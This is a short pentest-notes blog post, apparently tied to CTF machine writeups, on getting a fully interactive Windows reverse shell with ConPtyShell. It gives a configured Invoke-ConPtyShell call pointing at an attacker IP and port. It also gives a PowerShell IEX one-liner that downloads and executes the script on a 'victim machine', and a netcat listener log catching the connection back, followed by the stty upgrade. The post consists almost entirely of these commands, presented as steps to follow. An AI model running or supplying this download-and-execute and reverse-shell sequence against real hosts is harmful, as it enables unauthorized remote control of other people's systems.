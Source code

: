 ```yaml
---
description: >-
  Fully Interactive TTY (Windows)
title: Fully Interactive TTY (Windows)              # Add title here
date: 2023-01-31 08:00:00 -0600                           # Change the date to match completion date
categories: [07 Persistence, Fully Interactive TTY (Windows)]                     # Change Templates to Writeup
tags: [windows persistence, interactive tty, conpty]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### ConPTY
1) Download the [Invoke-ConPTYShell.ps1](https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1) script in our local machine.

2) Modify the final line on the script as follows exchange the IP and remote Port of our local machine as well as the stty size:
```powershell
class MainClass
{
    static void Main(string[] args)
    {
        Console.Out.Write(ConPtyShellMainClass.ConPtyShellMain(args));
    }
}

"@;
Invoke-ConPtyShell -RemoteIp 10.0.0.2 -RemotePort 3001 -Rows 43 -Cols 186
```

3) This command line will download and execute this file from the victim machine so you need to open your -RemotePort first:
```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.2/Invoke-ConPtyShell.ps1')
```
> For the reverse shell is imperative to use netcat without rlwrap.
{: .prompt-warning }

4) Once that we receive the shell we need to Ctrl+Z and execute the command stty as usual:
```bash
# Rev Shell
nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.175] 49877
^Z
zsh: suspended  nc -lvnp 1234
┌──(root㉿kali)-[~]
└─# stty raw -echo; fg
```
5) Finally double click Enter and that will be it...
   
Examples:
[Outdated](https://shuciran.github.io/posts/Outdated/#fnref:full-tty-windows)